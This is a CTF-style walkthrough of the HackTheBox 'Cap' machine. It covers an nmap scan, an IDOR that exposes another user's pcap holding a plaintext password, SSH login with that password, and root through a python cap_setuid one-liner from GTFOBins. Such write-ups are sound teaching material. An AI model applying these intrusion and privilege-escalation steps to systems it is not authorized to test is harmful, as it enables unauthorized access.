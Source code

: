 ```yaml
---
title: "HackTheBox - Cap"
author: Nasrallah
description: ""
date: 2022-08-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, idor, wireshark, python, capability]
img_path: /assets/img/hackthebox/machines/cap
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Cap](https://app.hackthebox.com/machines/Cap) from [HackTheBox](https://www.hackthebox.com). We find a webserver with an `IDOR` vulnerability that gives access to another user's pcap capture. The latter contains a plain text password that can be used to get foothold. A linux capability is then leveraged to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.245                                                                                                                   [205/291]
Host is up (0.16s latency).                                                   
Not shown: 997 closed tcp ports (reset)                                       
PORT   STATE SERVICE VERSION                                                  
21/tcp open  ftp     vsftpd 3.0.3                                             
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)                
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)                                                                                              
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)                                                                                            
80/tcp open  http    gunicorn                                                 
|_http-title: Security Dashboard                                              
| fingerprint-strings:                                                        
|   FourOhFourRequest:                                                                                                                                       
|     HTTP/1.0 404 NOT FOUND                                                  
|     Server: gunicorn                                                        
|     Date: Fri, 19 Aug 2022 07:12:52 GMT                                     
|     Connection: close                                                       
|     Content-Type: text/html; charset=utf-8                                  
|     Content-Length: 232                                                     
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">                 
|     <title>404 Not Found</title>                                            
|     <h1>Not Found</h1>                                                                                                                                     
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:                                                                                                                                              
|     HTTP/1.0 200 OK                                                         
|     Server: gunicorn                                                                                                                                       
|     Date: Fri, 19 Aug 2022 07:12:46 GMT                                     
|     Connection: close                                                       
|     Content-Type: text/html; charset=utf-8                              
|     Content-Length: 19386                                                                                                                                  
|     <!DOCTYPE html>                                                         
|     <html class="no-js" lang="en">                                          
|     <head>                                                                  
|     <meta charset="utf-8">                                                  
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
<**SNIP**>
|_http-server-header: gunicorn
```

There are 3 open ports, 21(FTP), 22(SSH) and 80(HTTP). Since we have no credentials for the first two services, let's check the webserver.

## Web

Navigate to the website http://10.10.10.245/

![](1.png)

We that we are already logged in as `Nathan`. Looking through the website, we find the following sidebar. 

![](2.png)

Going to Security Snapshots we get the following.

![](3.png)

From the description, this is a 5 second PCAP + Analysis, and if we hit the download button we get pcap file.

One other interesting thing to notice is the URL, the id of the current page is 1, let's try a different number, say 0 for example.

![](4.png)

We got a different analysis, let's download the pcap file and inspect it using wireshark.

![](5.png)

We found the password for ftp.

# **Foothold**

## FTP

Let's login as nathan to the ftp server.

![](6.png)

We logged in successfully, and seems we're in nathan's home directory.

## SSH

Let's use the same password and login via SSH this time.

![](7.png)

Great! We got in.

# **Privilege Escalation**

After some basic enumeration on the machine, i checked the capabilities with this command `getcap -r / 2>/dev/null` and found the following.

![](8.png)

The `/usr/bin/python3.8` have the `cap_setuid` capability. Let's go check [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) for ways the escalate our privileges using that.

![](9.png)

We need to run the following command.

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](10.png)

Great! We got root access.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).